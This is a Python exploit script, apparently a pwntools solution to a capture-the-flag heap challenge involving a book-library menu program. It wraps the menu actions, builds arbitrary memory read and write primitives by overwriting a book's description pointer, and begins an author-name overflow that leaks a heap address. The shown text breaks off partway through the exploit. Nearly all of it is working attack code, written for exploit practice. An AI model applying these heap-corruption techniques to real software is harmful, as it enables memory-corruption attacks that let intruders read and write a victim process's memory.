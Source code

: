 ```python

    def create(self, book_name_size, book_name, desc_size, description):
        self.p.sendline("1")
        self.p.sendlineafter("Enter book name size: ", str(book_name_size))
        self.p.sendlineafter("Enter book name (Max 32 chars): ", book_name)
        self.p.sendlineafter("Enter book description size: ", str(desc_size))
        self.p.sendlineafter("Enter book description: ", description)
        self.p.recvuntil("> ")

    def delete(self, book_id):
        self.p.sendline("2")
        self.p.sendlineafter("Enter the book id you want to delete: ", str(book_id))
        self.p.recvuntil("> ")

    def edit(self, book_id, new_desc):
        self.p.sendline("3")
        self.p.sendlineafter("Enter the book id you want to edit: ", str(book_id))
        self.p.sendlineafter("Enter new book description: ", new_desc)
        self.p.recvuntil("> ")

    def detail(self):
        self.p.sendline("4")
        detail = self.p.recvuntil("\n\n")
        self.library_detail = [
            {
                ("ID" if len(item) == 1 else item[0]): (item[0] if len(item) == 1 else item[1])
                for item in [i.split(": ") for i in dp.strip("\n").split("\n")]
            } for dp in detail.split("\nID: ")
        ]
        self.p.recvuntil("> ")

    def set_author_name(self, author_name, init=False):
        if not init:
            self.p.sendline("5")
        self.p.sendlineafter("Enter author name: ", author_name)
        self.p.recvuntil("> ")

    def write_to(self, addr, content):
        self.edit(1, p64(addr) + p64(len(content) + 1))
        self.edit(2, content)

    def read_from(self, addr):
        self.edit(1, p64(addr))
        self.detail()
        desc = [ld["Description"] for ld in self.library_detail if ld["ID"] == "2"]
        assert len(desc) == 1
        return u64((desc[0] + "\x00\x00")[:8])

    def pwn(self):
        self.set_author_name("shesl-meow", init=True)
        # todo: leak heap addr
        self.set_author_name("A" * 32)
        self.create(0x18, "B" * 0x18, 0x100, "C" * 0x100)  # 1
        self.detail()
        author = [ld["Author"] for ld in self.library_detail if ld["ID"] == "1"]
        assert len(author) == 1
        library0 = u64(author[0][32:] + "\x00\x00")
        print "leak library0 address: %s" % hex(library0)

        # todo: get arbitrary address write&read
        self.create(0x20, "D" * 0x20, 0x20, "E" * 0x20)  # 2
        offset = library0 & 0xff
        assert offset >= 0x20
```